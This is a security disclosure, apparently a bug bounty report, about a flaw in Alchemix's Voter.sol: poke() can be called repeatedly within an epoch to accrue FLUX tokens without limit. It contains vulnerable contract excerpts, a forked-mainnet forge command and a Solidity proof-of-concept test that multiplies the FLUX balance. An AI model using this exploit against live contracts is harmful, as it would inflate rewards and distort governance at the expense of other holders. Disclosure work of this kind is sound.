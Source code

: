 ## Link
https://github.com/immunefi-team/Bounty_Boosts/blob/main/Alchemix/Report%2031388.md

## Impacts:
- User can indefinitely accrue and mint FluxTokens
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
The `poke()` function of `Voter.sol` introduces a vulnerability,  allowing a token holder to increase his Flux balance as much as he likes. Unrestricted supply of Flux gives unfair advantage to voter and allows him to influence the votes and escape penalty when withdrawing

## Vulnerability Details

`Voter.sol` has 3 main function to manage votes:
- `vote()` - used to vote for pools (called `ONCE` per epoch)
- `poke()`- updates the voting status of an existing vote (can be called `MANY` time per epoch)
-  `reset()`- resets the vote ( called `ONCE` per epoch)

Both `vote()` and `poke()` call the internal `_vote()` function, which resets the previous vote, creates a new vote based on the current voting power and accrues new Flux based on it:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412

```solidity
 function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
         // 1. Reset previous vote
        _reset(_tokenId);

        ....

        // 2. Accrue flux
        IFluxToken(FLUX).accrueFlux(_tokenId);

         // 3. calculate weights and create vote
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
         ....
    }
```
The important part to focus on here is that `Flux is accrued` `every` time `_vote()` is invoked.  The amount accrued is based on the token voting power. `FluxToken::accrueFlux()` looks like this:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188

```solidity
function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
The other important thing to note about FLUX is that it should accrue once `EACH EPOCH`

The docs explicitly state that :
> `The FLUX token is a special reward token that accrues to veALCX positions each epoch...`

Link -> https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/CONTRACTS.md#fluxtokensol

**And this is where the bug lies** - `Voter::poke()` can be called an unlimited amount of times each epoch. As a result `_vote()` will also be called, meaning Flux balances will get accrued on every call, practically enabling the token owner to source as much Flux as he wants.


## Impact Details
Having an unlimited supply of Flux gives the NFT owner the power to:
- boost all his votes, all the time, influencing the outcome of the votes for the pools - the bigger the value locked in an NFT, the more Flux it can steal and the greater influence it can have on the votes

- unlock his position at any time - effectively evading penalty and withdrawing much sooner than intended. This defeats the whole purpose of escrowing and causes harm to the protocol

## References

The `poke()` function:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195

        
## Proof of Concept
I've added a POC inside the currently existing `Voting.t.sol` test file:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/Voting.t.sol

You can run the POC like this:
`forge test --mt testPokeExploit  --fork-url https://eth.llamarpc.com --fork-block-number 17133822  -vvvv`

```solidity
function testPokeExploit() public {
        // Lock ALCX token for max period to get max voting power
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);

        // No unclaimed flux token
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 0);

        // Impersonate token owner and call poke()
        hevm.startPrank(admin);
        voter.poke(tokenId);

        // Flux has been accrued
        unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 997259164121562177);

        // call poke()and  accrue unclaimed Flux again
        voter.poke(tokenId);

        // Flux has increased x2
        uint256 unclaimedBalance_x2 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x2, unclaimedBalance * 2);

        // Flux has increased x3
        voter.poke(tokenId);
        uint256 unclaimedBalance_x3 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x3, unclaimedBalance * 3);

        // Flux has increased x4
        voter.poke(tokenId);
        uint256 unclaimedBalance_x4 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x4, unclaimedBalance * 4);
    }
```